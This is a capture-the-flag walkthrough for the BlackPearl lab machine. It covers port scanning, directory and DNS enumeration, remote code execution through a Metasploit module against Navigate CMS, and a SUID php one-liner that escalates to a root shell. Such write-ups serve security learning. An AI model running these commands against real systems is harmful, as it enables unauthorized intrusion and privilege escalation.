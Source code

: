 # BlackPearl machine by TCM

IP={target_IP}

Nmap scan:

nmap -sC -sV -p- {target_IP} -oN scan.initial

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

ffuf -u http://{target_IP}/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt   

`/secret` 

```jsx
OMG you got r00t !

Just kidding... search somewhere else. Directory busting won't give anything.

<This message is here so that you don't waste more time directory busting this particular website.>

- Alek 

```

In the page view-source we also found:\
`<!-- Webmaster: alek@blackpearl.tcm -->`

Lets make a recon of this dns:

dnsrecon -r 127.0.0.1/24 -n {target_IP} -d recon

```jsx
[+] 	 PTR blackpearl.tcm 127.0.0.1
```

lets add  this record to `/etc/hosts`

`{target_IP} blackpearl.tcm`

---

`gobuster dir -u http://blackpearl.tcm/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,conf,txt -t 6`   

/.html                (Status: 403) [Size: 169]\
/index.php            (Status: 200) [Size: 86777]\
/navigate             (Status: 301) [Size: 185] [--> http://blackpearl.tcm/navigate/]

/navigate redirect us to login page

---

By exploring we found the exploit for cms 2. 8

https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/

`exploit/multi/http/navigate_cms_rce`

set Rhosts, Vhost, and run `exploit` and we have a shell.

---

We found the user 

`alek:x:1000:1000:alek,,,:/home/alek:/bin/bash`

by download a [linpeas.sh](http://linpeas.sh) and run it we found that its vulnerable to SUID for php:

so we need to find it in https://gtfobins.github.io/gtfobins/php/#suid

after execute it :

```jsx
www-data@blackpearl:/tmp$ /usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
```

we got root euid:

uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)

## Congrats!